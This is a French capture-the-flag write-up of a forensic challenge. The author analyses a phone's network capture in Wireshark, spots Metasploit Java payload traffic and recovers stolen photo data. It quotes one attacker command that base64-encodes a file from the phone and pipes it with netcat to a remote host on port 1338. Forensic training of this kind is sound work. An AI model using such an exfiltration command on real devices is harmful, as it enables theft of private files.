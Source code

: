 # C3PO

Difficulté : :star:

Énoncé :

> Pour votre première analyse, on vous confie le téléphone du PDG de *GoodCorp*.
>
> Ce dernier est certain que les précieuses photos stockées sur son téléphone sont récupérées par un acteur malveillant.
>
> Vous décidez de mettre en place une capture réseau sur le téléphone, afin de voir ce qu'il en est...

Fichier :

- [capture.cap](./capture.cap)

### Découverte

Le fichier est un peu long (72000 paquets pour 7 minutes d’enregistrement). Je l'ouvre dans Wireshark et je commence par filtrer seulement les requêtes DNS pour chercher un domaine louche. Je vois `a.espncdn.com`. Pour mois `espn` est un diminutif de `espion` donc je filtre les discussion avec cet hôte. C'est du HTTP, j'arrive à extraire un PNG... Et c'est le logo d'un média sportif x)

À côté de ça, des requêtes DNS AAAA vers 4 domaines sans aucun sens tels que `ltclalbmngxxfnk` ont lieu mais c'est beaucoup trop peu pour exfiltrer des données.



### Résolution

Manquant d'idée je tente la facilité :

```
$ strings capture.cap | grep -i fcsc
EVOPWM4JZra3yOcEM13BxP+rZP8Oph3AlEZyhh3l+H7jXR8xhS+1Y1IwfcScjmASMachmIKYgEtB
elgwWyhKML1ENvn0diLeVD7fK4NRmL5dytM2HojJ1ZfcSC63H6gTP4GYLJjaPh+MwvQyisxMjiHx
lRW2lxK0EuPZIkTR58Ov58EAVuoKkdcLULR4yBo8pLXc+DU0jDJ1hQrpJw3y39eT/o8e9actfCsc
18faSIJ5eagFBJPEl9Q2TKTIhzvKvqTIF8WXf0gwqdPkNBCTIJi0KfJvE8yu7gGK+qmisstFCSc
9HZAJMEEu/wTBJMmP05M91BmfL4imMCXSxFMWg8mFVx+J8GkxZd/SDBp3Zf/CMFcSC1pRYspFyWY
```

Le flag n'est pas en clair dans la capture mais on voit beaucoup de base64 ce qui est étrange. J'applique le filtre `frame contains elgwWyhKML1ENvn0diLeVD7fK4NRmL5dytM2HojJ1ZfcSC63H6gTP4GYLJjaPh` pour voir d'où cela provient. Je vois que c'est un push tcp vers `172.18.0.1:1338`. En appliquant le filtre `ip.addr == 172.18.0.1` on voit qu'il y a énormément d'échange vers le port 1337 et 1338 de cet hôte. Cela représente 20% des paquets du fichiers donc j'aurais peut-être dû me balader d'avantage dans le fichier avant de filtrer seulement les requête DNS...

On fait clic droit sur une trame TCP vers `172.18.0.1:1337` puis *Suivre... Flux TCP* et on voit des données contenant entre autre `Metasploit-JavaPayload`. On fait de même avec la première trame vers le port 1338 et on voit cela :

```
cat /sdcard/DCIM/flag.png | base64 | nc 172.18.0.1 1338
```

On affiche la communication TCP suivante sur le port 1338 et on voit un gros paquet de base64 du client vers le serveur. On clique sur *Save As...* pour enregistrer cela et le décoder :

```
base64 -d flag.b64 > flag.png
```

On récupère une jolie image :

![flag](flag.png)

